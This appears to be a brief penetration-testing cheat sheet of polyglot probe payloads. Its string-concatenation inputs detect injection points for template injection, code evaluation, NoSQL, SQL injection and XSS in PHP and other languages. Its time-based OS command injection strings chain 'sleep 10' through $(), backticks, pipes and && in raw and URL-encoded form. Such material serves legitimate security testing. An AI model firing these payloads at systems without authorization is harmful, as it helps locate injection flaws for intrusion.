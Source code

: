 # Errors based/behaviour inferer

## PHP String context for SSTi, evaluation, NoSQL, SQLi, XSS

``hello"."@(${{[%<%'**'><h1>asad2afdsd42sg</h1>`` => `Surrounding string:'` then output should be: `hello@(\${{[%<%"."> (concats ')` && `Surrounding string:"` then output should be: `hello'.'@(${{[%<%> concats(")`

## Other languages string context for SSTi, evaluation, NoSQL, SQLi, XSS

`hello"+"@(${{[%<%'**'><h1>asad2afdsd42sg</h1>` => `Sourrounding string:'` then output should be: `Generic Error Message (Fails to concat)` && `Surrounding string: "` then output should be `hello@(${{[%<%'**'> (Concats)`

`hello"%2b"%40(${{[%25<%25'**'><h1>asad2afdsd42sg</h1>`

## Error based inferer for OSCMDi, Path Traversal in Unix

``$(sleep+10)+||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10+`sleep+10`";$(sleep+10)+`sleep+10`||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10"';sleep+10+%26%26sleep+10+||+sleep+10+|+sleep+10+`sleep+10`'``

``$(sleep 10) || sleep 10 | sleep 10; sleep 10 && sleep 10 `sleep 10`";$(sleep 10) `sleep 10`|| sleep 10 | sleep 10; sleep 10 && sleep 10"';sleep 10 && sleep 10 || sleep 10 | sleep 10 `sleep 10`'``

Works in raw format, between `'` or `"`.

